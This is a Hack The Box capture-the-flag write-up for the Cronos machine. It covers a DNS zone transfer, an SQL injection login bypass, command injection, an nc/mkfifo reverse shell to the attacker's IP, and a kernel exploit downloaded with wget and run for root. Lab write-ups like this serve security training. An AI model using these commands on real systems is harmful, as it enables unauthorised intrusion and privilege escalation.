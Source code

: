 # Cronos -- hack the box

![AEpKkq.png](https://s2.ax1x.com/2019/03/14/AEpKkq.png)

## Introduction

Target machine: 10.10.10.13(OS: linux)

Kali linux: 10.10.16.44

## Enumeration

Firstly, detect the open ports:

```
nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.13
```

![openports](https://github.com/neal1991/htb/blob/master/Cronos/openports.png)

3 ports is open, detect the detailed services:

```
namp -sV -sC -p22.53.80 -Pn -oA services 10.10.10.13
```

![services](https://github.com/neal1991/htb/blob/master/Cronos/services.png)

So we can conduct the relation of ports of ports and services as following:

port|service
---|---
53|DNS
22|ssh
80|http

## Exploitation

### http

As the target machine provides http service, try to access `http://10.10.10.13`

![default web](https://github.com/neal1991/htb/blob/master/Cronos/80.png)

Default apache web page, nothing new. So try to brute force `http://10.10.10.13/` with dirbuster. After brute force for a period time, we have not found anything new.

### DNS

As the target machine owns DNS service. It is common to check zone transfer with `dig`. As we can have a guess of the dns domain of `cronos.htb`. So zone transfer can be checked by:

```
dig axfr @10.10.10.13 cronos.htb
```

![dns](https://github.com/neal1991/htb/blob/master/Cronos/dns.png)

An interestring domain name `admin.cronos.htb` is found. So add an entry into `/etc/hosts`:

```
10.10.10.13    admin.cronos.htb
```

Try to access `admin.cronos.htb` in the browser, a login web page is displayed. Yep, it is what we want. It seems that the login is quite simple. Try to login with sql injection with the username of `admin ' or '1' = '1`, the password can be anything.

![login](https://github.com/neal1991/htb/blob/master/Cronos/login.png)

Magic! We are in. It seems that it is a network tool. However, it seems that it has exposed the ability to execute command remotely. Have a test of `8888&whoami`:

![whoami](https://github.com/neal1991/htb/blob/master/Cronos/whoami.png)

The result is `www-data`. Obviously, the command can executed properly. Now try to reverse the shell. Try to listen to port `1234` by nc in our kali:

```
nc -lvnp 1234
```

Then use the bash reverse shell command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f
```

Wait for server second, shell is return. Wonderful!

![nc](https://github.com/neal1991/htb/blob/master/Cronos/nc.png)

Try to obtain a tty terminal:

```
python -c "import pty;pty.spawn('/bin/sh')"
```

Obviously, the user role can be obtained. Go the `home` folder and `ls`， then go into the user folder to get user.txt.

## Privilege escalation

It's time to get the root role. See the kernel of the target machine:

```
uname -a
```

Google linux kernel privilege escalation, find a [payload](https://www.exploit-db.com/exploits/44298)

![AEmLVK.png](https://s2.ax1x.com/2019/03/15/AEmLVK.png)

Server a http server to provide the payload, name it as exploit.c:

```
pythoon -m SimpleHTTPServer 80
```

There are serveal ways to provide http file services, including: php, apache, python, etc. Pyhton is quite convinient. Then download the `exploit.c` in the target machine:

```
wget http://10.10.16.22/exploit.c
```

Then try to compile it with gcc. Opps, gcc seems has not been installed in the target machine. In general, linux will install gcc. Whatever, compile the `exploit.c` in kali:

```
gcc exploit.c -o exploit
```

Remember to download the file from a folder with permission, just like `/tmp`:

```
cd /tmp
wget http://10.10.16.44/exploit
```

Make sure to have execution perssion by:

```
chmod +x exploit
```

Just execute it by `./exploit`. Wow, now see whoami.

![root](https://github.com/neal1991/htb/blob/master/Cronos/root.png)

## Conclusion

The target machine is quite straitforward. The basic point is the zone transfer of DNS exploit. And other steps is not difficult with basic knowledges including: sql injection, reverse shell, etc.




